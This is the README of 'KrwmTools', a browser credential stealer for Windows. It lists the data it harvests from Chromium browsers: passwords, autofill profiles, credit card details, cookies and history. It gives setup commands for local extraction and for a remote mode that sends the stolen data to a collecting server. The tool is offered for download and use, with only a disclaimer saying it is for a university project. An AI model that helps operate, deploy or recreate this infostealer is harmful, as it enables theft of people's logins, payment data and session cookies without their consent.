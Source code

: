 # KrwmTools

A tool for extracting sensitive data from Chromium browsers on Windows. Able to extract:
- Credentials
- Autofill fields
- Autofill profiles
- Autofill addresses
- Autofill names
- Autofill emails
- Autofill phone numbers
- Credit card info
- Cookies
- History (search terms and web history)


## Local Extraction

![Local Demo](assets/local_demo.gif)

### Setup:

**Option 1**: Download krwmtools-win from Releases (on the right). Extract and run the containing krwmtools.exe file. 

**Option 2**: Directly with Python
1. Install dependencies with `pip install client/requirements.txt`
1. Start the program with `python client/main.py`

Extracted data will be placed in your `Documents\KrwmTools\Client Logs` directory.

## Remote Extraction

![Remote Demo](assets/remote_demo.gif)

**Server Setup**:
1. Install dependencies with `pip install server/requirements.txt`
1. Start the program with `python server/server.py`

Extracted data will be placed in the server's `Documents\KrwmTools\Server Logs` directory.

**Client Setup**:
1. Install dependencies with `pip install client/requirements.txt`
1. Start the program with the -r or --remote flag: `python client/main.py -r [OPTIONAL: server_host] [OPTIONAL: server_port]`

Note: if no server_host is specified, the client will try to find the server on localhost. Extracted data will also be placed in the client's `Documents\KrwmTools\Client Logs` directory. 



## Disclaimer
This tool was made for educational purposes (for a university security project). Please do not use it on others illegally or without their explicit consent, and note that I am not responsible for any damage.

